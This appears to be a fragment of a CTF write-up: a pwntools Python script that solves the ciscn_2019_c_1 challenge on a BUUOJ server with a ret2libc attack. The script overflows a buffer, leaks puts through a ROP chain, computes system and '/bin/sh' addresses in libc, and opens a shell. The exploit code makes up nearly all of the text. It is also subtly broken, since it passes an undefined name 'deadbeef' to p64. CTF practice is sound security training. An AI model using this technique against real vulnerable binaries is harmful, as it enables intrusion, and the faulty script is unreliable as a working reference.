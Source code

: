![ret2libc-flag.png](./assets/ret2libc-flag.png)

完整exploit:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))

base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~

